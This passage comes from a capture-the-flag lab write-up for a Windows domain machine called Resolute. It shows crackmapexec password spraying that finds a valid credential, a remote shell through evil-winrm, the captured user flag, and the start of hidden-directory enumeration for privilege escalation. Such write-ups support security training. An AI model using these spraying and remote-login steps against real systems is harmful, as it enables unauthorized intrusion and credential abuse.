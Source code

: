 ```
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```
This password is valid to user `melanie`
### User Account
We can check if this user can login into the machine via `winrm` service 

**Command**
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/resolute/creds]
└─$ crackmapexec winrm 10.10.10.169 -u melanie -p 'Welcome123!'
```
**Result**
``` 
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```
Then user `melanie` can login through `wnrm` then we can use `evil-winrm` to login.

**Command**
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/resolute/creds]
└─$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
```
**Result**
```
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
```
**User flag**
```
*Evil-WinRM* PS C:\Users\melanie\desktopgc user.txt
cb2ce78be54a22bb4567ba469e7b023d
```
### Privilege Escalation.
This user does not have anything interesting but we can enumerate the file system, starting with the `C:\ root`. To list files we can use `Get-ChildItem -H` command or `dir -force` 
```
*Evil-WinRM* PS C:\users\melanie\appdata\local\temp> cd / 
```
After listing the hidden file can be seen then we can check the `PSTranscripts` directory to see what does it have.
```
*Evil-WinRM* PS C:\> gci -H

    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-       12/23/2022   5:52 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
```